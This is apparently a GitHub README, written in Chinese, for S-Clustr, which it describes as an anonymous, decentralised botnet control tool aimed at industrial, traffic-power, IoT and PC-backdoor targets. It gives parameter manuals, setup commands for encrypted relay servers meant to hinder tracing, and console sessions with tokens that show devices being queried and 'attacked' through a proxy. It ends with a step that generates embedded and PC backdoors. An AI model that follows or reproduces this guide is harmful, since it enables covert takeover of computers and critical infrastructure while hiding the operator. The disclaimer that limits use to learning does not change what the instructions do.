


# 前言

<p align="center">
 
 
  
  
 
 
</p>
 </p>

<div style="text-align: center;">
    
</div>

# 关于

* (匿名网友)问:S-Clustr是一款什么工具?
* 答:是一款匿名性极高的新型僵尸网络控制工具,采用去中心化控制.
* (匿名网友)问:S-Clustr的使用场景和使用环境?
* 答:工业/智能控制、大/中/小型机房控制、工业/交通电源控制、物联网控制、个人计算机后门控制.
* (匿名网友)问:流量通讯的隐蔽性如何?
* 答:处于环形网络中的服务端之间通讯采用AES 对称加密,即使中间人截获数据包没有正确的密钥情况下无法解密出内容.
* (匿名网友)问:会受到重放攻击吗?
* 答:每个服务器之间均由设置数据包的生命周期,也就意味着重放攻击将失效.
* (匿名网友)问:控制PC端可以做什么?
* 答:这完全取决于你的客户端控制程序如何编写。例如你可以当命令下发时访问xxx网站,打开xxx应用,执行xxx命令等.
* (匿名网友)问:环形网络是什么?
* 答:在环形网络中,流量全部进行加密,匿名者通过控制设备时,将不断通过服务器之间跳转来增大溯源难度,其次匿名者IP在环网中将不会被记录
* (匿名网友)问:控制数量规模?
* 答:这取决于你的计算机性能,若较好单节点服务器则可接管上万台设备,节点服务器之间将形成网络环。假设该环中存在3个节点服务器,那么控制设备在3w台左右.

# 参数手册

## S-Clustr_Root_Server

```
  -root-ip <INT> # 设置当前主机IP
  -root-port <INT> # 设置处理设备状态的访问端口
  -root-key <STR> # 设置处理设备状态密钥,指定则需要长度大等于6位字符串(默认长度12随机字符串)
  -root-q-key <STR> # 设置匿名者查询服务密钥,指定则需要长度大等于6位字符串(默认长度12随机字符串)
  -root-q-port <INT> # 设置匿名者查询服务的访问端口
```

## S-Clustr_Server
```
  -local-ip <INT> # 设置当前主机IP
  -server-dev-port <INT> # 设置设备接入端口
  -ring-port <INT> # 设置开放控制端口
  -server-key <STR> # 设置控制密钥,指定则需要长度大等于6位字符串(默认长度12随机字符串)
  -server-dev-key <STR> # 设置设备接入密钥,指定则需要长度大等于6位字符串(默认长度12随机字符串)
  -ring-key <STR> # 设置环网密钥,指定则需要长度大等于6位字符串(默认长度12随机字符串)
```
## S-Clustr_Client
```
 s-key <STR> # 设置环网中最终访问的节点服务器的控制密钥
 s-host <STR> # 设置环网中最终访问的节点服务器IP
 s-port <INT> # 设置环网中最终·访问的节点服务器控制端口
 id <INT> # 设置所需要控制的设备ID,[0]选择所有设备
 pwr <INT> # 设置所需要控制的设备状态,[1]运行|[2]停止|[3]查询状态
 rnt-host <STR> # 设置环网中节点代理服务器IP
 rnt-port <INT> # 设置环网中节点代理服务器端口
 rnt-key <INT> # 设置环网密钥
 root-q-host <STR> # 设置根服务器IP
 root-q-port <INT> # 设置根服务器查询端口
 root-q-key <STR> #设置根服务器查询密钥
```


# 加密环网

## 安装依赖

进入Install目录,进行安装
Linux环境下安装`$ . Linux_Installer.sh`


Windows环境下安装`>Windows_Installer.bat`


## 启动ROOT服务[192.168.8.105]

`$python S-Clustr_Root_Server.py`


```
[22:54:49] | ROOT     | [INFO] Root query service [192.168.8.105:10091]
[22:54:49] | ROOT     | [INFO] Root query token [121f5b330619d641587d3c9fd022d97a]
[22:54:49] | ROOT     | [INFO] Root service [192.168.8.105:10090]
[22:54:49] | ROOT     | [INFO] Root token [6xxxa56fc2196451cae1e10420fadbe0]
```

## 节点服务器B启动[192.168.8.105]

配置环网密钥为`S-H4CK13@Maptnh.`

`$python S-Clustr_Server.py -ring-key S-H4CK13@Maptnh.`


```
[22:56:30] | System   |  [INFO] Server token [f871f0e6c54xxxd8be18439cc766a692]
[22:56:30] | System   |  [INFO] Device token [d0086d0edd098498a2f5107a4a3a60bf]
[22:56:30] | System   |  [INFO] Ring network token [1f14d2b21d43468d12c5f1834cd00b21]
[22:56:30] | System   |  [INFO] Device Service [192.168.8.105:10000]
[22:56:30] | System   |  [INFO] Max devices [20]...
[22:56:30] | System   |  [INFO] Device heartbeat packet time [30/s]
[22:56:30] | System   |  [INFO] Ring network service [192.168.8.105:10089]
[22:56:30] | System   |  [CONFING] Configure file updates every 6 seconds
```


修改B核心服务器中[`Config/Server.conf`]的REMOTE\_ROOT\_SERVER参数,使得设备状态推送该根服务器
`"REMOTE_ROOT_SERVER": { "TOKEN": "6xxxa56fc2196451cae1e10420fadbe0", "IP": "192.168.8.105", "PORT":10090 },`

修改B核心服务器中[`Config/Proxy.conf`]参数,将路由数据包到以下IP
`{ "Route": ["192.168.8.107:10089"] }`


## 节点服务器C启动[192.168.8.107]

配置环网密钥为`S-H4CK13@Maptnh.`

`>python S-Clustr_Server.py -ring-key S-H4CK13@Maptnh.`


```
[23:41:50] | System   |  [INFO] Server token [63dd7b5ad871ddb06389dfa5d9130351]
[23:41:50] | System   |  [INFO] Device token [ab0b3c5367fe8604c80183e0ee7f567d]
[23:41:50] | System   |  [INFO] Ring network token [1f14d2b21d43468d12c5f1834cd00b21]
[23:41:50] | System   |  [INFO] Max devices [20]...
[23:41:50] | System   |  [INFO] Device Service [169.254.241.130:10000]
[23:41:50] | System   |  [INFO] Device heartbeat packet time [30/s]
[23:41:50] | System   |  [INFO] Ring network service [169.254.241.130:10089]
[23:41:50] | System   |  [CONFING] Configure file updates every 6 seconds
```

修改服务器C中[`Config/Server.conf`]的REMOTE\_ROOT\_SERVER参数,使得设备状态推送该根服务器
`"REMOTE_ROOT_SERVER": { "TOKEN": "6xxxa56fc2196451cae1e10420fadbe0", "IP": "192.168.8.105", "PORT":10090 },`

修改服务器C中[`Config/Proxy.conf`]参数,将路由数据包到以下IP
`{ "Route": ["192.168.8.105:10089"] }`

# 匿名者客户端测试

访问根服务器(`192.168.8.105`),查询核心服务器(`192.168.8.107`)的设备表


```
┌──(maptnh㉿Maptnh)-[~/桌面/S-Clustr]
└─$ python S-Clustr_Client.py

███████╗       ██████╗██╗     ██╗   ██╗███████╗████████╗██████╗
██╔════╝      ██╔════╝██║     ██║   ██║██╔════╝╚══██╔══╝██╔══██╗
███████╗█████╗██║     ██║     ██║   ██║███████╗   ██║   ██████╔╝
╚════██║╚════╝██║     ██║     ██║   ██║╚════██║   ██║   ██╔══██╗
███████║      ╚██████╗███████╗╚██████╔╝███████║   ██║   ██║  ██║
╚══════╝       ╚═════╝╚══════╝ ╚═════╝ ╚══════╝   ╚═╝   ╚═╝  ╚═╝
                Github==>https://github.com/MartinxMax
                S-H4CK13@Мартин. S-Clustr(Shadow Cluster) Server v1.2.0

************************************************************************************
<免责声明>:本工具仅供学习实验使用,请勿用于非法用途,否则自行承担相应的法律责任
<Disclaimer>:This tool is only for learning and experiment. Do not use it
for illegal purposes, or you will bear corresponding legal responsibilities
************************************************************************************
S-H4CK13@Maptnh

Welcome to S-Clustr console. Type [options][help/?] to list commands.

[S-H4CK13@S-Clustr]<v1.2.0># options
| Name           | Current Setting | Required | Description
|:--------------:|:---------------:|:--------:|:-----------------
| s-key          |                 | yes      | Server token (TOKEN)(UDP)(Ring network)
| s-host         |                 | yes      | Server ip (UDP)(Ring network)
| s-port         | 10089           | no       | Server port (UDP)(Ring network)
| id             |                 | yes      | Device ID [0-n/0 represents specifying all]
| pwr            |                 | yes      | Device behavior (run[1]/stop[2]/Query device status[3])(1/2-UDP(Ring network))(3-TCP)
| rnt-host       |                 | yes      | Proxy server (UDP)(Ring network)
| rnt-port       | 10089           | no       | Proxy server port(UDP)(Ring network)
| rnt-key        |                 | yes      | Ring token (TOKEN)(UDP)(Ring network)
| root-q-host    |                 | yes      | Root server ip (QUERY)(TCP)(ROOT)
| root-q-port    | 10091           | no       | Root server port (QUERY)(TCP)(ROOT)
| root-q-key     |                 | yes      | Root server token (TOKEN)(QUERY)(TCP)(ROOT)
|:--------------:|:---------------:|:--------:|:-----------------

[S-H4CK13@S-Clustr]<v1.2.0># set s-host 192.168.8.107 # 服务器地址
[*] s-host => 192.168.8.107
[S-H4CK13@S-Clustr]<v1.2.0># set id 0 # 查询所有设备
[*] id => 0
[S-H4CK13@S-Clustr]<v1.2.0># set pwr 3 # 查询操作
[*] pwr => 3
[S-H4CK13@S-Clustr]<v1.2.0># set root-q-host 192.168.8.105 # 根服务器地址
[*] root-q-host => 192.168.8.105
[S-H4CK13@S-Clustr]<v1.2.0># set root-q-key 121f5b330619d641587d3c9fd022d97a # 根服务器查询TOKEN
[*] root-q-key => 121f5b330619d641587d3c9fd022d97a
[S-H4CK13@S-Clustr]<v1.2.0># run
[*] Connecting to the server...
IP      | Ring Port | Device Port | Device_max | ID | Type  | Status  | Network
----------------------------------------------------------------------------
192.168.8.107 | 10089     | 10000       | 20        | 1 | None | Stopped | Disconnected
192.168.8.107 | 10089     | 10000       | 20        | 2 | None | Stopped | Disconnected
192.168.8.107 | 10089     | 10000       | 20        | 3 | None | Stopped | Disconnected
192.168.8.107 | 10089     | 10000       | 20        | 4 | None | Stopped | Disconnected
192.168.8.107 | 10089     | 10000       | 20        | 5 | None | Stopped | Disconnected
192.168.8.107 | 10089     | 10000       | 20        | 6 | None | Stopped | Disconnected
192.168.8.107 | 10089     | 10000       | 20        | 7 | None | Stopped | Disconnected
192.168.8.107 | 10089     | 10000       | 20        | 8 | None | Stopped | Disconnected
192.168.8.107 | 10089     | 10000       | 20        | 9 | None | Stopped | Disconnected
192.168.8.107 | 10089     | 10000       | 20        | 10 | None | Stopped | Disconnected
192.168.8.107 | 10089     | 10000       | 20        | 11 | None | Stopped | Disconnected
192.168.8.107 | 10089     | 10000       | 20        | 12 | None | Stopped | Disconnected
192.168.8.107 | 10089     | 10000       | 20        | 13 | None | Stopped | Disconnected
192.168.8.107 | 10089     | 10000       | 20        | 14 | None | Stopped | Disconnected
192.168.8.107 | 10089     | 10000       | 20        | 15 | None | Stopped | Disconnected
192.168.8.107 | 10089     | 10000       | 20        | 16 | None | Stopped | Disconnected
192.168.8.107 | 10089     | 10000       | 20        | 17 | None | Stopped | Disconnected
192.168.8.107 | 10089     | 10000       | 20        | 18 | None | Stopped | Disconnected
192.168.8.107 | 10089     | 10000       | 20        | 19 | None | Stopped | Disconnected
192.168.8.107 | 10089     | 10000       | 20        | 20 | None | Stopped | Disconnected
[S-H4CK13@S-Clustr]<v1.2.0>#
```

# 利用环网加密控制设备

## 被控端Pc_demo.py来模拟后门软件(运行前先打开文件修改代码,连接地址)

被控端反向连接核心服务器[192.168.8.107]
(恶搞一下ta)


## 匿名者通过环形网络来跳转攻击



```
[S-H4CK13@S-Clustr]<v1.2.0># options
| Name           | Current Setting | Required | Description
|:--------------:|:---------------:|:--------:|:-----------------
| s-key          |                 | yes      | Server token (TOKEN)(UDP)(Ring network)
| s-host         | 192.168.8.107   | no       | Server ip (UDP)(Ring network)
| s-port         | 10089           | no       | Server port (UDP)(Ring network)
| id             | 0               | no       | Device ID [0-n/0 represents specifying all]
| pwr            | 3               | no       | Device behavior (run[1]/stop[2]/Query device status[3])(1/2-UDP(Ring network))(3-TCP)
| rnt-host       |                 | yes      | Proxy server (UDP)(Ring network)
| rnt-port       | 10089           | no       | Proxy server port(UDP)(Ring network)
| rnt-key        |                 | yes      | Ring token (TOKEN)(UDP)(Ring network)
| root-q-host    | 192.168.8.105   | no       | Root server ip (QUERY)(TCP)(ROOT)
| root-q-port    | 10091           | no       | Root server port (QUERY)(TCP)(ROOT)
| root-q-key     | 121f5b330619d641587d3c9fd022d97a | no       | Root server token (TOKEN)(QUERY)(TCP)(ROOT)
|:--------------:|:---------------:|:--------:|:-----------------

[S-H4CK13@S-Clustr]<v1.2.0># set s-host 192.168.8.107 # 设置目标核心服务器
[*] s-host => 192.168.8.107
[S-H4CK13@S-Clustr]<v1.2.0># set s-key 4b111f2e85b49a2869e0ff1b36f6f4bc # 设置目标核心服务器Server TOKEN
[*] s-key => 4b111f2e85b49a2869e0ff1b36f6f4bc
[S-H4CK13@S-Clustr]<v1.2.0># set rnt-host 192.168.8.105 # 设置环网中的代理服务器
[*] rnt-host => 192.168.8.105
[S-H4CK13@S-Clustr]<v1.2.0># set rnt-key 1f14d2b21d43468d12c5f1834cd00b21 # 设置环网TOKEN
[*] rnt-key => 1f14d2b21d43468d12c5f1834cd00b21
[S-H4CK13@S-Clustr]<v1.2.0># set id 1 # 选择第一号设备
[*] id => 1
[S-H4CK13@S-Clustr]<v1.2.0># set pwr 1 # 运行操作
[*] pwr => 1
[S-H4CK13@S-Clustr]<v1.2.0># run # 攻击!!!!!
[*] Connecting to the server...
[*] Sending to [192.168.8.105:10089] # 流量正在通过代理

# 查询设备状态
[S-H4CK13@S-Clustr]<v1.2.0># set id 1
[*] id => 1
[S-H4CK13@S-Clustr]<v1.2.0># set pwr 3
[*] pwr => 3
[S-H4CK13@S-Clustr]<v1.2.0># run
[*] Connecting to the server...
IP      | Ring Port | Device Port | Device_max | ID | Type  | Status  | Network
----------------------------------------------------------------------------
192.168.8.107 | 10089     | 10000       | 20        | 1 | PC | Runing | Connected
```


被控端执行操作



# 原理图


# 使用Generate生成后门程序

可生成嵌入式与个人计算机后门程序

``$python Generate.py``


